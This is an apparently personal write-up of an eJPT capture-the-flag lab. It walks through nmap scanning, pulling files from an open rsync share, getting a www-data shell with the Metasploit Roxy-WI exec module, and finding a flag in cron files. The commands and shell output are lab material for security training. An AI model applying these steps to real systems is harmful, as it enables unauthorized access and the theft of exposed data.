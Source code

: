 ```yaml
---
title: "eJPT - Host & Network Penetration Testing: The Metasploit Framework CTF 2"
date: 2025-06-01 00:00:00 - 0501
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]

---
```


# Lab Environment

In this lab environment, you will have GUI access to a Kali Linux machine. Two machines are accessible at **target1.ine.local** and **target2.ine.local**.

**Objective:** Using various exploration techniques, complete the following tasks to capture the associated flags:

- **Flag 1:** Enumerate the open port using Metasploit, and inspect the RSYNC banner closely; it might reveal something interesting.
- **Flag 2:** The files on the RSYNC server hold valuable information. Explore the contents to find the flag.
- **Flag 3:** Try exploiting the webapp to gain a shell using Metasploit on target2.ine.local.
- **Flag 4:** Automated tasks can sometimes leave clues. Investigate scheduled jobs or running processes to uncover the hidden flag.

# Tools

The best tools for this lab are:

- Nmap
- Metasploit Framework
- rsync

---

### Note

In this lab, the flag will follow the format: FLAG1_MD5Hash. For example, FLAG1_0f4d0db3668dd58cabb9eb409657eaa8. You need to submit only the MD5 hash string, excluding the underscore (_). For instance: 0f4d0db3668dd58cabb9eb409657eaa8.

---

### Question1

---

Enumerate the open port using Metasploit, and inspect the RSYNC banner closely; it might reveal something interesting.

After setting up the MSF console, I’ve started the Nmap scan right from the console, on the target1.ine.local and found only the 1 port open.

```bash
msf6 > db_nmap -sS -sV -sC -O target1.ine.local
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-05 21:45 IST
[*] Nmap: Nmap scan report for target1.ine.local (192.40.138.3)
[*] Nmap: Host is up (0.000058s latency).
[*] Nmap: Not shown: 999 closed tcp ports (reset)
[*] Nmap: PORT    STATE SERVICE VERSION
[*] Nmap: 873/tcp open  rsync   (protocol version 31)
[*] Nmap: MAC Address: 02:42:C0:28:8A:03 (Unknown)
[*] Nmap: Device type: general purpose
[*] Nmap: Running: Linux 4.X|5.X
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
[*] Nmap: OS details: Linux 4.15 - 5.8
[*] Nmap: Network Distance: 1 hop
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds
```

After a bit of research found the rsync is a utility for **file synchronization and transfer**, offers a plethora of configuration options to tailor its performance and security to your specific needs.

and found the rsync tool can be used out to check any open shared made

```bash
┌──(root㉿INE)-[~]
└─# rsync rsync://target1.ine.local/
backupwscohen   FLAG1_5d61d88643ee439fbe96ab7*********
```

We’v found the our first flag!

---

### Question 2

The files on the RSYNC server hold valuable information. Explore the contents to find the flag.

By continuing from there found the next flag right before there

```bash
┌──(root㉿INE)-[~]
└─# rsync -av rsync://target1.ine.local/backupwscohen/ .                                                                                                                                   
receiving incremental file list
./
TPSData.txt
office_staff.vhd
pii_data.xlsx

sent 84 bytes  received 339 bytes  846.00 bytes/sec
total size is 84  speedup is 0.20

```

That command will download files to my system and which found the flag. 

```bash
┌──(root㉿INE)-[~]
└─# cat pii_data.xlsx                                                                                                                                                                      
FLAG2_f781e26635fd4b7ea76c24*********
```

---

### Question 3:

---

Try exploiting the webapp to gain a shell using Metasploit on target2.ine.local.

Now running the Nmap on the target and found a service which is running on the website on port 80 and 443 and after using msfconsole there is the exploit 

```bash
use linux/http/roxy_wi_exec
set rhost
set lhost
run
```

now we have our foot hold on the system as www-data and also our hand on flag3.

```bash
www-data@target2:/var/www/haproxy-wi/app$ cd /
cd /
www-data@target2:/$ ls
ls
www-data@target2:/$ bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat flag.txt
www-data@target2:/$ FLAG3_648edbf608814a51afae0a1********
```

---

### Question 4

Automated tasks can sometimes leave clues. Investigate scheduled jobs or running processes to uncover the hidden flag.

Based on the question the cron jobs are stored in the system directory in this path 

```bash
/etc/crontab
```

By navagiting over there and found cron.d was there by cheching the cron files we found the flag4

```bash
www-data@target2:/etc/cron.d$ dir
dir
www-data@target2:/etc/cron.d$ e2scrub_all  www-data-cron
cat e2scrub_all
cat e2scrub_all
www-data@target2:/etc/cron.d$ 30 3 * * 0 root test -e /run/systemd/system || SERVICE_MODE=1 /usr/lib/x86_64-linux-gnu/e2fsprogs/e2scrub_all_cron
10 3 * * * root test -e /run/systemd/system || SERVICE_MODE=1 /sbin/e2scrub_all -A -r
cat www-data-cron
cat www-data-cron
www-data@target2:/etc/cron.d$ * * * * * www-data echo "FLAG4_b4419cfe074e49d49d7739ed*********"

```

With that this modules comes to an end!
